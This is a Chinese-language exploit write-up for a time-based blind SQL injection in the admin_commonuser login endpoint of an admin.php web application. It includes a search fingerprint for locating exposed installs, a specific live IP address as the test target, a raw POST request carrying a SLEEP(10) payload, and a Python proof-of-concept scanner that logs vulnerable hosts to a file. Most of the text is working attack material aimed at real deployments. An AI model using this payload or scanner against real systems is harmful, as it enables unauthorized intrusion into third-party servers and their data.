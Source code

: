 ## 一、资产搜索

```
body="admin.php?controller=admin_index&action=get_user_login_fristauth"
```

## 二、测试网站

```
https://171.223.114.196:1443
```

## 三、验证漏洞

构造的请求包

```
POST /admin.php?controller=admin_commonuser HTTP/1.1
Host: 171.223.114.196:1443
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36
Connection: close
Content-Length: 79
Accept: */*
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(10)))ptGN) AND 'AAdm'='AAdm
```

![image-20240903113139797](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903113139797.png)

## 四、POC

```
def poc(target):
    payload = "/admin.php?controller=admin_commonuser"
    data = "username=admin' AND (SELECT 6999 FROM (SELECT(SLEEP(10)))ptGN) AND 'AAdm'='AAdm"
    headers = {
        "User-Agent": "Mozilla/5.0(WindowsNT10.0;WOW64)AppleWebKit/537.36(KHTML,likeGecko)Chrome/89.0.4389.114Safari/537.36",
        "Connection": "close",
        "Content-Length": "79",
        "Accept": "*/*",
        "Content-Type": "application/x-www-form-urlencoded",
        "Accept-Encoding": "gzip"
    }
    res1 = requests.get(url=target, verify=False,timeout=5)   # 0.3
    try:
        if res1.status_code == 200:
            res2 = requests.post(url=target,verify=False)  # 10.3
            res3 = requests.post(url=target+payload, data=data, headers=headers, verify=False)
            time2 = res2.elapsed.total_seconds()
            time3 = res3.elapsed.total_seconds()
            if time3-time2 >= 9 and time3 > 10:  ## 这里判断只要res2响应超过5秒，就判断存在漏洞，因为正常响应时间不超过1秒
                with open("result.txt", "a", encoding="utf-8") as f:
                    f.write(f"该{target}存在延时注入漏洞{time3 - time2}\n")
                print(f"该{target}存在延时注入漏洞{time3 - time2}")
            elif time3 < 9:
                print(f"该{target}不存在延时注入漏洞{time3 - time2}")
        else:
            print(f"该{target}存在问题，请手动测试")
    except Exception as e:
        print(e)
```

## 五、测试结果

![image-20240903144822062](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903144822062.png)

![image-20240903144848659](https://imagescf.oss-cn-beijing.aliyuncs.com/img/image-20240903144848659.png)
